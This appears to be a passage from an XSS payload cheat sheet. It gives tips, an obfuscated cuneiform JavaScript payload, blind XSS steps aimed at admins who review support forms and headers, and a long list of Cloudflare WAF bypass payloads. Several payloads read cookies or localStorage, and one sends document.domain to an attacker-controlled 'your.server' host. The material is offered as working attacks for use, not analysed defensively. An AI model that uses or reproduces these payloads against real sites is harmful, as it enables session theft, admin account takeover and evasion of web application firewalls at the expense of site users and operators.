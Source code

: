 ## Tips and Trick
   - '-[document.cookie].find(alert)-' >> converted to '-[document.cookie] everything is deleted after ] , I bypassed this with putting = before the payload
='-[document.cookie].find(alert)-'
   - XSS location.assign 
  ```html
  <svg onload=location.assign("javascript:alert`_Y000!_`");>
  ```
   - XSS lead to admintakeover
     ![POC](https://pbs.twimg.com/media/EUHdw3hXkAEO7ra?format=png&name=900x900)
   - A cuneiform payload by @lutfumertceylan
      ```html
      𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++], 𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀] +(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀] +𒀟]𒁹()
      ```
    
 ## Blind XSS
    
 Tools Used [XSS Hunter](https://xsshunter.com/features)
1. Inject Blind XSS Payload to User-Agent Header
2. Inject Blind XSS Payload to Referrer/Origin Header
3. Try using another trick and tips above if there have some protection 
4. Inject blind xss to the feature like (report, contant me, chat request,customer support,suggestion) where the admin or victim review it somewhere (backend)
    
## Bypass WAF
1. Cloudflare
```
<svg%0Aonauxclick=0;[1].some(confirm)//

<svg onload=alert%26%230000000040"")>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>
<svg onx=() onload=(confirm)(1)>

<svg onx=() onload=(confirm)(document.cookie)>
    
<svg/onload=location/**/='https://your.server/'+document.domain>
    
<svg onx=() onload=(confirm)(JSON.stringify(localStorage))>

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u -xss popup

<svg onload=alert%26%230000000040"1")>

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))

[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)

```

[a]: (javascript:prompt(1))